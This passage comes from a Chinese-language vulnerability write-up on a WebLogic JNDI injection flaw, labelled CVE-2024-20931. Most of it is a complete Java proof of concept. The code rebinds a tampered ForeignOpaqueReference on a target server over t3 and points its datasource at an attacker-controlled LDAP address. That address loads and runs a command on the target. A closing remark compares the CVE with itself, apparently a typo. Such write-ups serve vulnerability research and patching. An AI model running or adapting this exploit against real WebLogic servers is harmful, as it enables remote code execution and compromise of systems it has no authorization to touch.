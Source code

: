 然后在这个方法中造成了 JNDI 注入，这样就不用再受前面说的`this.remoteJNDIName`的限制了

完整 POC:

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的 InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference 的 jndiEnvironment 属性  
        Hashtable env2 = new Hashtable();  
        env2.put("java.naming.factory.initial", "oracle.jms.AQjmsInitialContextFactory");  
        env2.put("datasource", "ldap://192.168.1.12:1389/Basic/Command/calc");  

        // ForeignOpaqueReference 的 jndiEnvironment 和 remoteJNDIName 属性  
        ForeignOpaqueReference f = new ForeignOpaqueReference();  
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
        jndiEnvironment.setAccessible(true);  
        jndiEnvironment.set(f, env2);  

        // 远程绑定 ForeignOpaqueReference 对象  
        c.rebind("glassy", f);  

        // lookup 查询 ForeignOpaqueReference 对象  
        try {  
            c.lookup("glassy");  
        } catch (Exception e) {  
        }  
    }  
}
```

## 其他思考

CVE-2024-20931 还是使用了和 CVE-2024-20931 一样的类`weblogic.deployment.jms.ForeignOpaqueReference`

回到`weblogic.jndi.internal.WLNamingManager`的`getObjectInstance`方法中
